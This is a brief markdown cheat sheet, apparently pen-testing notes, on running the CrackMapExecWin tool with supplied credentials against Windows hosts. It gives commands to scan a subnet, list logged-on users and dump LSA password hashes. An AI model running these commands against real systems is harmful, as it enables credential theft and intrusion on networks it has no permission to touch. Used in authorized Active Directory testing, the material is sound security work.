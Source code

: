 # CrackMapExecWin: Subnet Scanner 

1. Download [crackmapexec binary](https://github.com/maaaaz/CrackMapExecWin) for Windows
2. Run following command

        ./crackmapexec.exe -u USERNAME -p PASSWORD <IP_ADDRESS>

3. View currently logged on users

        ./crackmapexec.exe -u USERNAME -p PASSWORD <IP_ADDRESS> --lusers

4. Get hash dump of users

        ./crackmapexec.exe -u USERNAME -p PASSWORD <IP_ADDRESS> --lsa

## References

* https://github.com/maaaaz/CrackMapExecWin
* https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/
* http://www.harmj0y.net/blog/redteaming/powerview-2-0/